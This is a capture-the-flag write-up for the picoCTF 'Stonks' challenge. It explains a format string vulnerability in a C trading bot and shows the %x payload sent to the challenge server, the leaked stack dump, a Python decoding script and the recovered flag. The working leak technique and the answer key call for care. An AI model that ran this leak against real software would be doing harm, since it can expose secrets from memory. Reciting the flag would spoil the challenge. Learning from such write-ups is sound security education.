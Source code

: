 # Stonks

I decided to try something noone else has before. I made a bot to automatically trade stonks for me using AI and machine learning. I wouldn't believe you if you told me it's unsecure! [vuln.c](vuln.c) `nc mercury.picoctf.net 27912`


## Hints

1. Okay, maybe I'd believe you if you find my API key.

### Solution

After examining the source code [vuln.c](vuln.c), I noticed that there are two places that take user input:


1. Line `136`: To select what we would like to do after running the application
1. Line `91`: To get the user provided API token


Immediately, I realized that we could combine line `91` with line `93` to leak the data on the stack.


Since the user API token string is unchecked user input, we could use a [Format String Vulnerability](https://en.wikipedia.org/wiki/Uncontrolled_format_string) to print the stack.


Before we could explain the exploit, it's important to understand the memory layout in [C](https://en.wikipedia.org/wiki/C_(programming_language)).


![C Memory Layout](memory_layout.png)


The stack is growing down! For historical reasons, the code segment starts from address zero upwards, and the stack starts at the end of the memory and grows downwards. For more information please read [Why does the stack grow downward?](https://softwareengineering.stackexchange.com/questions/137640/why-does-the-stack-grow-downward).


Thus, whenever a new function is called the [call stack](https://en.wikipedia.org/wiki/Call_stack) is growing downwards. However any strings on the stack continue to grow upwards.

![Call stack](call_stack.png)

![String growth on the stack](string_growth.png)


Now that we understand the memory layout in `C`, it's now important to understand [printf format string](https://en.wikipedia.org/wiki/Printf_format_string).


A [printf](https://cplusplus.com/reference/cstdio/printf/) begins with a `%`. `Printf` allows us to print an unsigned hexadecimal integer by providing `%x` in the format string. However, when we don't provide another argument to `printf` other than the format string (which is exactly the case on line 93), then `%x` would print some memory content of the `printf` stack frame. Also, considering that the stack grows down, and strings grow upwards, we could leak the memory content of the previous stack frame.


This is how the call stack should look for [vuln.c](vuln.c):

```
----------
main
----------
buy_stonks
----------
printf          # Line 93
----------
```

Thus, when we pass `%x` as the `API token` then we get back data on the stack.


```shell
$ nc mercury.picoctf.net 27912
Welcome back to the trading app!

What would you like to do?
1) Buy some stonks!
2) View my portfolio
1
Using patented AI algorithms to buy stonks
Stonks chosen
What is your API token?
%x
Buying stonks with token:
9e0a390
Portfolio as of Fri Jan 27 03:44:46 UTC 2023


1 shares of UH
6 shares of XE
5 shares of BEAN
954 shares of VXLE
402 shares of FOUK
Goodbye!
```


However, we could pass in many more `%x` as the `API token`. More precisely, we could pass in an API token that is up to 300 characters long. This length limit is set by line 91.


Considering, that `x86` has a 32 bit [word size](https://en.wikipedia.org/wiki/Word_(computer_architecture)), we want the stack memory printed as 4 bytes. We could do this by setting a [width](https://cplusplus.com/reference/cstdio/printf/) in the format string.


```
%4x.%4x.%4x.%4x.%4x.%4x.%4x.%4x.%4x.%4x.%4x.%4x.%4x.%4x.%4x.%4x.%4x.%4x.%4x.%4x.%4x.%4x.%4x.%4x.%4x.%4x.%4x.%4x.%4x.%4x.%4x.%4x.%4x.%4x.%4x.%4x.%4x.%4x.%4x.%4x.%4x.%4x.%4x.%4x.%4x.%4x.%4x.%4x.%4x.%4x.%4x.%4x.%4x.%4x.%4x.%4x.%4x.%4x.%4x.%4x.%4x.%4x.%4x.%4x.%4x.%4x.%4x.%4x.%4x.%4x.%4x.%4x.%4x.%4x.%4x.%4x.%4x.%4x.%4x.%4x.
```


Passing the above as the API token returns:

```shell
$ nc mercury.picoctf.net 27912
Welcome back to the trading app!

What would you like to do?
1) Buy some stonks!
2) View my portfolio
1
Using patented AI algorithms to buy stonks
Stonks chosen
What is your API token?
%4x.%4x.%4x.%4x.%4x.%4x.%4x.%4x.%4x.%4x.%4x.%4x.%4x.%4x.%4x.%4x.%4x.%4x.%4x.%4x.%4x.%4x.%4x.%4x.%4x.%4x.%4x.%4x.%4x.%4x.%4x.%4x.%4x.%4x.%4x.%4x.%4x.%4x.%4x.%4x.%4x.%4x.%4x.%4x.%4x.%4x.%4x.%4x.%4x.%4x.%4x.%4x.%4x.%4x.%4x.%4x.%4x.%4x.%4x.%4x.%4x.%4x.%4x.%4x.%4x.%4x.%4x.%4x.%4x.%4x.%4x.%4x.%4x.%4x.%4x.%4x.%4x.%4x.%4x.%4x.
Buying stonks with token:
8c86430.804b000.80489c3.f7f16d80.ffffffff.   1.8c84160.f7f24110.f7f16dc7.   0.8c85180.   2.8c86410.8c86430.6f636970.7b465443.306c5f49.345f7435.6d5f6c6c.306d5f79.5f79336e.32666331.30613130.ffd5007d.f7f51af8.f7f24440.51c3c700.   1.   0.f7db3ce9.f7f250c0.f7f165c0.f7f16000.ffd58d98.f7da468d.f7f165c0.8048eca.ffd58da4.   0.f7f38f09.804b000.f7f16000.f7f16e20.ffd58dd8.f7f3ed50.f7f17890.51c3c700.f7f16000.804b000.ffd58dd8.8048c86.8c84160.ffd58dc4.ffd58dd8.8048be9.f7f163fc.   0.ffd58e8c.ffd58e84.   1.   1.8c84160.51c3c700.ffd58df0.   0.   0.f7d59fa1.f7f16000.f7f16000.   0.f7d59fa1.   1.ffd58e84.ffd58e8c.ffd58e14.
Portfolio as of Fri Jan 27 03:51:30 UTC 2023


2 shares of WNQ
1 shares of WV
9 shares of XKLS
4 shares of S
3 shares of A
6 shares of Z
9 shares of PW
22 shares of EBF
1 shares of B
763 shares of VUBQ
Goodbye!
```


Thus, the following is the stack content:

```
8c86430.804b000.80489c3.f7f16d80.ffffffff.   1.8c84160.f7f24110.f7f16dc7.   0.8c85180.   2.8c86410.8c86430.6f636970.7b465443.306c5f49.345f7435.6d5f6c6c.306d5f79.5f79336e.32666331.30613130.ffd5007d.f7f51af8.f7f24440.51c3c700.   1.   0.f7db3ce9.f7f250c0.f7f165c0.f7f16000.ffd58d98.f7da468d.f7f165c0.8048eca.ffd58da4.   0.f7f38f09.804b000.f7f16000.f7f16e20.ffd58dd8.f7f3ed50.f7f17890.51c3c700.f7f16000.804b000.ffd58dd8.8048c86.8c84160.ffd58dc4.ffd58dd8.8048be9.f7f163fc.   0.ffd58e8c.ffd58e84.   1.   1.8c84160.51c3c700.ffd58df0.   0.   0.f7d59fa1.f7f16000.f7f16000.   0.f7d59fa1.   1.ffd58e84.ffd58e8c.ffd58e14.
```


Considering that string grow upwards and the stack grows down, it's possible that the flag (stored on the stack, see line 66) is in that output!


To determine if the flag is in the output, we'll have to clean up the memory content, and convert the hexadecimal values to [ASCII](https://en.wikipedia.org/wiki/ASCII).


However, before we could do any conversion, it's important to understand how bytes are stored in memory. On an [x86](https://en.wikipedia.org/wiki/X86) system, the bytes are stored as [little endian](https://en.wikipedia.org/wiki/Endianness).


![Little Endian](little_endian.png)


I wrote this [Python](https://en.wikipedia.org/wiki/Python_(programming_language)) script, that splits the string into individual words, converts the bytes to ASCII, then reverses the word to account for endianness.


```python
def words_to_ascii(words: list[str]) -> list[str]:
  result = list()

  for word in words:
    char_list = list()
    for i in range(0, 8, 2):
      hex_str = "0x{}{}".format(word[i], word[i+1])
      byte_decimal_value = int(hex_str, 16)
      char_list.append(chr(byte_decimal_value))

    # We reverse the cur_str because x86 is little endian
    char_list.reverse()

    result.append("".join(char_list))

  return result


if __name__ == "__main__":
  raw_word_str = input()
  words = [word.strip() for word in raw_word_str.split(".")]
  words = list(filter(lambda word: len(word) == 8, words))

  print("".join(words_to_ascii(words)))
```


Running this script on the memory content output should print all the ASCII character:


```shell
$ echo '8c86430.804b000.80489c3.f7f16d80.ffffff
ff.   1.8c84160.f7f24110.f7f16dc7.   0.8c85180.   2.8c86410.8c86430.6f636970.7b465443.306c5f49.345f7435.6d5f6c6c.306d5f79.5f79336e.32666331.30613130.ffd5007d.f7f51af8.f7f24440.51c3c700.   1.   0.f7db3ce9.f7f250c0.f7f165c0.f7f16000.ffd58d98.f7da468d.f7f165c0.8048eca.ffd58da4.   0.f7f38f09.804b000.f7f16000.f7f16e20.ffd58dd8.f7f3ed50.f7f17890.51c3c700.f7f16000.804b000.ffd58dd8.8048c86.8c84160.ffd58dc4.ffd58dd8.8048be9.f7f163fc.   0.ffd58e8c.ffd58e84.   1.   1.8c84160.51c3c700.ffd58df0.   0.   0.f7d59fa1.f7f16000.f7f16000.   0.f7d59fa1.   1.ffd58e84.ffd58e8c.ffd58e14.' | python mem_print.py

mñ÷ÿÿÿÿAò÷Çmñ÷picoCTF{I_l05t_4ll_my_m0n3y_1cf201a0}Õÿø?õ÷@Dò÷ÇÃQé<Û÷ÀPò÷Àeñ÷`ñ÷ÕÿFÚ÷Àeñ÷¤Õÿ      ó÷`ñ÷ nñ÷ØÕÿPíó÷xñ÷ÇÃQ`ñ÷ØÕÿÄÕÿØÕÿücñ÷ÕÿÕÿÇÃQðÕÿ¡Õ÷`ñ÷`ñ÷¡Õ÷ÕÿÕÿÕÿ
```


Analyzing the output, we see the flag. Lets use [grep](https://en.wikipedia.org/wiki/Grep) to print only the flag.


```shell
$ echo '8c86430.804b000.80489c3.f7f16d80.ffffffff.   1.8c84160.f7f24110.f7f16dc7.   0.8c85180.   2.8c86410.8c86430.6f636970.7b465443.306c5f49.345f7435.6d5f6c6c.306d5f79.5f79336e.32666331.30613130.ffd5007d.f7f51af8.f7f24440.51c3c700.   1.   0.f7db3ce9.f7f250c0.f7f165c0.f7f16000.ffd58d98.f7da468d.f7f165c0.8048eca.ffd58da4.   0.f7f38f09.804b000.f7f16000.f7f16e20.ffd58dd8.f7f3ed50.f7f17890.51c3c700.f7f16000.804b000.ffd58dd8.8048c86.8c84160.ffd58dc4.ffd58dd8.8048be9.f7f163fc.   0.ffd58e8c.ffd58e84.   1.   1.8c84160.51c3c700.ffd58df0.   0.   0.f7d59fa1.f7f16000.f7f16000.   0.f7d59fa1.   1.ffd58e84.ffd58e8c.ffd58e14.' | python mem_print.py | grep -oa 'picoCTF{.*}'

picoCTF{I_l05t_4ll_my_m0n3y_1cf201a0}
```


#### Flag
```
picoCTF{I_l05t_4ll_my_m0n3y_1cf201a0}
```
